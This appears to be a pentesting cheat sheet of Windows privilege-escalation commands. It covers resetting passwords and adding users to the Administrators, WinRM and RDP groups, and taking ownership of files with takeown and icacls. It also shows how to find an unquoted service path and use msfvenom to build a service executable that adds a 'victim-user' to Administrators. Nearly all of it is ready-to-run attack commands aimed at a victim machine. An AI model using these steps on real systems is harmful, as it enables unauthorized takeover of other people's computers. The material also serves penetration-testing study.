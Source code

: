 If you can change the user's permissions, connect WinRM or RDP using "evil-winrm", "remmina".

```powershell
# Change user's password
net user USERNAME NEWPASSWORD

# Add new user
net user /add USERNAME PASSWORD

# Add user to group
net localgroup Administrators USERNAME /add
net localgroup "Remote Managment Users" USERNAME /add   # WinRM
net localgroup "Remote Desktop Users" USERNAME /add     # RDP
```

<br />

## Take Ownership of a File (Administrators Group Required)

```powershell
# Check if the current user belongs to the Administrators group. 
net user USERNAME

# Move to the directory containing the desired file
cd \Users\Administrator\Desktop

# Enable an administrator to recover access to a file.
# /R: recursive operation
# /F: specify the filename
takeown /r /f *.*

# Modify dictionary access control lists on specified files
# /q: suppress success message
# /c: continue the operation despite any file errors
# /t: perform the operation on all specified files
# /grant: grant specified user access rights
icacls "example.txt" /q /c /t /grant Users:F
```

<br />

## Unquoteding Service Path to Privilege Escalation

```powershell

# In victim Windows machine

# Find unquoted service path
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\\Windows\\" | findstr /i /v """                                "

# Confirm the information for the service
sc qc "Development Service"

# If the service path is "C:\Program Files\Development Files\Devservice Files\Service.exe",
# you can place the exploit to "C:\Program Files\Devservice.exe"

# -----------------------------------------------------------------

# In attack machine

# Create the exploit using msfvenom
msfvenom -p windows/exec CMD='net localgroup Administrators victim-user /add' -f exe-service -o Devservice.exe

```